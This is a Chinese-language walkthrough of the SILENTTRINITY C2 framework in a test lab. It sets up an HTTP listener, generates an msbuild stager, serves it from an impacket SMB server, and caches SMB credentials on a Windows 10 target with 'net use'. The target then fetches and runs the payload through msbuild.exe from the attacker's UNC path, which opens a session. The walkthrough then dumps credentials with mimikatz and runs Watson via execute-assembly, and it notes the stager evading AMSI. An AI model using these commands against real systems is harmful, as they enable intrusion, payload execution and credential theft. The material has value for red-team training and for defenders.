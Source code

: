 # SILENTTRINITY

SILENTTRINITY 是 [byt3bl33d3r](https://twitter.com/byt3bl33d3r) 用python写的一个工具， 它使用Ironpython，为了方便描述，这里我们称之为 ST.

## 安装

安装这个工具和它的依赖，然后启动。这里包含手动安装最新版和 [impacket](https://github.com/SecureAuthCorp/impacket)。

```bash
#Install deps
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket
pip install -r requirements.txt
python setup.py install
​
#Install ST
apt install python3.7 python3.7-dev python3-pip
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY/Server
python3.7 -m pip install -r requirements.txt
​
#Start it up
python3.7 st.py
```

![Ready to go](images/1.png)


## 监听

继续选择侦听器，将它绑定到IP+端口并启动它。顺便说一下，我把BindIP设置为一个子网，因为我使用VPN连接到测试实验室。没有什么神奇的。

```back@st
listeners
list
use http
options
set BindIP 10.0.8.6
start
```

![](images/2.png)

## Staging

接着生成stager。它将在/opt/SILENTTRINITY/Server目录中终止。

```hack@st
stagers
list
use msbuild
generate http
```

![](images/3.png)
![](images/4.png)

## 运行

现在，找到下载和触发stager的适当方法。到2018年11月，msbuild stager payloads 仍然没能触发Windows1803上的AMSI。

## Serving the payload

一个巧妙的方法是使用SMB服务器来为 payloads 提供服务。下载并使用msbuild 和 到SMB服务器的UNC路径作为参数触发它。

首先创建一个共享文件夹，然后从impacket启动SMB服务器。

```powershell
mkdir /opt/SMB
smbserver.py SMB /opt/SMB -username hacker -password hacker -smb2support -ip 10.0.8.6
```

![](images/5.png)

## 触发 payload

现在我们尝试用msbuild触发payload，但是失败了，因为还没有认证。

```cmd
cp /opt/SILENTTRINITY/Server/msbuild.xml /opt/SMB/msbuild.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\10.0.8.6\SMB\msbuild.xml
```

![](images/6.png)

## 缓存凭证

这里为什么要指定凭证？在Windows 10上，默认情况下不能使用未经身份验证的SMB。据我所知，没有一种方法可以直接给 msbuild 提供凭据。因此，我在主机上摆弄了一下，找到一些技巧来缓存 SMB 服务器的一些凭据。如您所见，我用 hacker/hacker 进行身份验证。当然了这很安全。在目标上， 用 `net use` 命令触发身份验证。这个命令会尝试使用特定的凭证访问smb共享，从而在目标上本地缓存凭证。从运筹学的角度来看，这很不优雅，所以如果大家有更好的方法，可以联系我。

```powershell
net use \\10.0.8.6\smb /user:hacker hacker
```

![](images/7.png)

我们看到，成功进行身份验证和并获得NetNTLMv2哈希。因此，现在在目标上缓存了凭据，我们再次尝试触发 payload。

![](images/8.png)

woc好像发生了什么。。我们回ST里看看。

![](images/9.png)

这下就非常美丽了，我们得到了一个会话，认证的时候复用了缓存的凭证。

## 模块

现在我们列出刚刚获得的会话。因为我从提过权的shell触发了 payload，所以我们有一个提权了的会话。这允许我们做一些事情，比如dump 凭证和其他类型的后期利用。

```bash
sessions
list
```

![](images/10.png)

因此，让我们探索一下ST必须提供的一些后期利用模块。正如你所看到的，ST已经内置了很多模块，貌似还有更多的模块要发布。

![](images/11.png)

我们选择 `mimikatz` 模块并在会话中运行。注意，你必须从会话列表中复制 GUID，以便做好准备。如果你有多个会话，也可以使用 `run all` 在所有会话上运行该模块。

```
modules
list
use mimikatz
options
run GUID
```

![](images/12.png)

运行shell模块

![](images/12.png)

使用 [Watson](https://github.com/rasta-mouse/Watson) 尝试执行`execute-assembly`模块。实际上注意到 ST 会自动补全目前的会话的GUID。按键盘上的 右方向键 来自动补全。

```
modules
use execute-assembly
options
set Assembly /opt/Watson.exe
run GUID
```

![](images/15.png)

![](images/14.png)

在我打过补丁的win10 1803 虚拟机上啥也没发现，这很正常。